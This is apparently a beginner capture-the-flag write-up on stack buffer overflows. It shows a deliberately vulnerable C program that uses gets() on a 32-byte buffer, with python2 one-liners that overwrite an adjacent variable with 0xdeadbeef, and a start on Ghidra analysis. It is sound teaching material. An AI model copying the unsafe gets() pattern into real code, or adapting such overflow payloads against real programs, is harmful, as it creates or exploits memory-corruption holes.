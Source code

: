 # 🫁 02-overwriting\_stack\_variables\_part2

So let's run the binary and try to test out the overflow

<figure><img src="../../../../.gitbook/assets/image (1199).png" alt=""><figcaption></figcaption></figure>

let's unhex the output value to understand what happended

<figure><img src="../../../../.gitbook/assets/image (1200).png" alt=""><figcaption></figcaption></figure>

let's look at the source code to see what happened

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void do_input(){
    int key = 0x12345678;
    char buffer[32];
    printf("yes? ");
    fflush(stdout);
    gets(buffer);
    if(key == 0xdeadbeef){
        printf("good job!!\n");
        printf("%04x\n", key);
        fflush(stdout);
    }
    else{
        printf("%04x\n", key);
        printf("...\n");
        fflush(stdout);
    }
}

int main(int argc, char* argv[]){
    do_input();
    return 0;
}
```

we see that we have a 32 size buffer and the key value needs to be equal to 0xdeadbeef but there's no input way of changing this value except of overwriting this

<figure><img src="../../../../.gitbook/assets/image (1201).png" alt=""><figcaption></figcaption></figure>

```
python2 -c 'print 32 * "A" + "deadbeef"'
```

So i tried overflowing the 32 size buffer with the value deadbeef but it only took the first 4 chars and reversed them

so we do the same thing but reverse the 2 dead to daed ->

<figure><img src="../../../../.gitbook/assets/image (1202).png" alt=""><figcaption></figcaption></figure>

ok now is going to be the tricky part, we are going to craft our payload and inject it in overwrite:

```
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"'
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"' > payload
./overwrite < payload
```

<figure><img src="../../../../.gitbook/assets/image (1203).png" alt=""><figcaption></figcaption></figure>

**`"\xef\xbe\xad\xde"`**:

* This is a string containing four specific byte values, represented in hexadecimal notation. Each `\xHH` sequence represents a single byte, where `HH` is the hexadecimal value of the byte.
* In this case, `"\xef\xbe\xad\xde"` represents the bytes with hexadecimal values `EF`, `BE`, `AD`, and `DE`.

The last four characters are non-printable and represent the bytes `EF`, `BE`, `AD`, and `DE`.

and since the string is reversed it overflows with deadbeef and validates the challenge

Now let's open up ghidra&#x20;

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can start by changing some of the values to look more like what we had in our C program:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
